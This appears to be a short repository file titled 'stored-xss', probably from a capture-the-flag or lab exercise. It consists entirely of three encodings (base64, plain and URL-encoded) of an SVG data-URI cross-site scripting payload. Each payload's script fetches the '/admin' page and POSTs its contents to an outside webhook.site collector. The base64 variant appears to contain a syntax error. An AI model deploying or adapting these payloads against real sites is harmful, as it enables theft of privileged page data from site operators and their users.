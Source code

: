 # stored-xss

<img src="data:image/svg+xml;base64,PHN2ZyB4bWxucz0naHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmcnIHZpZXdCb3g9JzAgMCAxMDAgMTAwJz48c2NyaXB0PmZldGNoKCcvYWRtaW4nKS50aGVuKHIgPT4gci50ZXh0KCkpLnRoZW4oZSA9PiB7ZmV0Y2gnKCdodHRwczovL3dlYmhvb2suc2l0ZS9kMDgyMmZhNC03MThlLTQxMTctOTMwMC1iYTVjOGRlNzEwZDcnLHttZXRob2Q6J1BPU1QnLG1vZGU6J25vLWNvcnMnLGJvZHk6YXRvYihlKX0pfTwvc2NyaXB0Pjwvc3ZnPg==" />


<img src="data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><script>fetch('/admin').then(r=>r.text()).then(f=>fetch('https://webhook.site/d0822fa4-718e-4117-9300-ba5c8de710d7',{method:'POST',body:f}))</script></svg>">

<img src="data:image/svg+xml,%3Csvg%20xmlns%3D%27http%3A//www.w3.org/2000/svg%27%3E%3Cscript%3Efetch%28%27/admin%27%29.then%28r%3D%3Er.text%28%29%29.then%28f%3D%3Efetch%28%27https%3A//webhook.site/d0822fa4-718e-4117-9300-ba5c8de710d7%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Af%7D%29%29%3C/script%3E%3C/svg%3E">
